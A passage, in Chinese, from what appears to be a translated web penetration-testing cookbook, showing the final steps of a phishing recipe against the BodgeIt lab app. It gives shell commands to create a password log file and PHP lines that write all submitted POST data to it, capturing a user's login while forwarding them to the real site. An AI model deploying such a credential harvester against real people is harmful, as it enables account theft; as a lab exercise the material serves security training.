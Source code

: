 6.  你可以看到，密码会保存到` passwords_C00kb00k.txt`。我们需要创建这个文件来设置合理的权限。在 root 终端中访问`/var/www/html/bodgeit `，并输入下列命令：

    ```
    touch passwords_C00kb00k.txt 
    chown www-data passwords_C00kb00k.txt
    ```
    
    要记住 Web 服务器运行在 www-data 用户下，所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。
    
7.  现在，是时候让受害者访问这个站点了，假设我们让用户访问了`http://192.168.56.1/bodgeit/login.jsp`，打开浏览器并访问它。

8.  使用一些有效用户信息填充登录表单，对于这个秘籍我们会使用`user@ mail.com/password`。

9.  点击`Login`。
    
    ![](img/9-2-1.jpg)
    
    它看起来能正常工作，我们现在成功登录了` 192.168.56.102`。
    
0.  让我们检查密码文件，在终端中输入：

    ```
    cat passwords_C00kb00k.txt
    ```
    
    ![](img/9-2-2.jpg)
    
    并且，我们得到它了。我们捕获了用户的密码，将它们重定向到正常页面并执行了登录。
    
### 工作原理

这个秘籍中，我们使用了站点副本来创建密码收集器，并使它更加可信，我们使脚本执行原始站点的登录。

在前三步中，我们简单设置了 Web 服务器和它要展示的文件。下面，我们创建了密码收集器脚本`post.php`：前两行和之前的秘籍相同，它接受所有 POST 参数并保存到文件中。

```php
$file = 'passwords_C00kb00k.txt';  
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```
